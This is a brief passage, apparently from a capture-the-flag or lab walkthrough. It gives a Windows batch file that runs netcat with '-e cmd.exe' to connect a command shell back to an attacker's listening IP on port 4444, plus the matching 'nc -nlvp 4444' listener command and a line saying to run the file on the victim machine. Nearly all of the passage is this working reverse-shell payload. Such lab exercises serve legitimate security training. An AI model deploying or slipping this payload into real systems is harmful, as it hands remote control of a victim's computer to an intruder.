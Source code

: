 File must be a `.bat` file (batch file). Create using notepad and change file extension to `.bat`

```
@echo off
C:\Users\McSkidy\Downloads\nc.exe LISTENING_IP 4444 -e cmd.exe
```

Listen on port 4444 and run the `.bat` file on the victim Windows machine.

```
nc -nlvp 4444
```
